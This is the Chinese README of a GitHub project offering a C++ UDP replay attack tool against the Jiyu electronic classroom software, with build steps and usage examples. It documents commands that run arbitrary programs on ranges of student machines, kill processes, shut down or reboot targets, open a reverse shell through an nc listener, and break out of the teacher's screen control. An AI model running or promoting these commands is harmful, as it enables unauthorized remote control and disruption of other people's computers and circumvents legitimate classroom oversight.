 # Jiyu-UDP-Attack-Cpp
使用 C++ 编写的 UDP 重放攻击脚本，用于极域电子教室。

English document: [README.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README.md)

## 编译
要求的 C++ 版本：C++14

编译命令：

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe
```

### GCC / MinGW (On Windows)
```bash
g++ main.cpp -o main.exe -std=c++14 -lws2_32
```

### GCC / MinGW (On Linux)
```bash
g++ main.cpp -o main -std=c++14
```

当在 Windows 平台上使用 GCC / MinGW 编译器时注意：  
确保在引用库的搜索目录中包含了 Windows 相关的程序库。
不要忘记添加编译参数 `-lws2_32`。如果不使用命令行编译，请在 IDE 的编译选项中加入相应参数。

## 使用方法
通过运行程序或调用如下命令启用用户界面：
```bash
main
```

或者使用命令行调用：
```bash
main [-h(--help) |
  [-ip <IP>] [-p <Port>] [-msg <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-ncport <NC Port>]]
```

参数列表：
| 参数 | 描述 | 默认值 |
| -------- | ----------- | ------- |
| `-h(--help)` | 显示帮助文本。 | |
| `-ip <IP>` | 指定目标机的 IP。 | |
| `-p <Port>` | 指定监听的端口。 | 4705 |
| `-msg <Message>` | 指定要发送的信息。 | |
| `-c <Command>` | 在目标机上运行指定命令。 | |
| `-e <Extra Option>` | 加载额外选项。 | |
| `-l <Loop Count>` | 指定命令的循环次数。 | 1
| `-c <Loop Time Interval>` | 指定两次循环直接的时间间隔，单位为秒。 | 22 |
| `-ncport <NC Port>` | 指定 `nc` 命令的监听端口。 | 8888 |

在 `-e` 参数的 `<Extra Option>` 选项中，可用的选项有：
| 选项 | 描述 |
| ------ | ----------- |
| `r` | 重启目标机 |
| `s` | 关闭目标机 |
| `g` | 获取当前的 IP 地址和学生端监听的端口。 |
| `nc` | 反弹 Shell。目标机需要能访问互联网。在退出时可使用 `exit` 命令。 |
| `break` | 脱离屏幕控制。需要以管理员身份运行程序。 |
| `continue` | 恢复屏幕控制。 |

在 `-ip` 参数的 `<IP>` 中，可用的 IP 有：
- 一个独立的 IP。例子： `192.168.1.1`
- 一个IP段。例子： `192.168.1.2-10`  
注意：  
只有 IP 的最后一个数字可以成段。  
这是非法的： `192.168.1-80.1`

### 命令例子
1. 获取当前的 IP 地址和学生端监听的端口

```bash  
main -e g
```

2. 脱离屏幕控制

需要管理员权限，主要为了 MpsSvc。
```bash
main -e break
```

3. 恢复屏幕控制

```bash
main -e continue
```

4. 发送消息

给 IP 为 `192.168.1.1` 的目标机发送消息“Hello!”：
```bash
main -ip 192.168.1.1 -msg "Hello!"
```

如果学生端监听的端口是 **4605**，使用参数 `-p <Port>` 来指定端口号。向 IP 为 `192.168.1.12` 的目标机发送消息“Hello!”：
```bash
main -ip 192.168.1.12 -p 4605 -msg "Hello!"
```

5. 运行命令

在 IP 为 `192.168.1.12` 到 `192.168.1.137` 的目标机上弹出计算器：
```bash
main -ip 192.168.1.12-137 -c calc.exe
```

如果要运行的命令中含有空格，使用引号包裹：
```bash
main -ip 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. 反弹 Shell

目标机的 IP 应当为**某个IP**，不能批量反弹，且目标机需要能访问互联网。
```bash
main -ip 192.168.1.1 -e nc
```

7. 关机重启

关机：
```bash
main 192.168.1.1 -e s
```

重启：
```bash
main 192.168.1.1 -e r
```

8. 循环执行

向 IP 为 `192.168.1.1` 到 `192.168.1.254` 的目标机发送消息“Hello!”，总共 3 次，每两次之间间隔 50 秒：
```bash
main -ip 192.168.1.1-254 -msg "Hello!" -l 3 -t 50
```

## 关于
受到了 [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack) 项目的启发，于是用 C++ 重写了一个。

## 许可证
[MIT 许可证](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
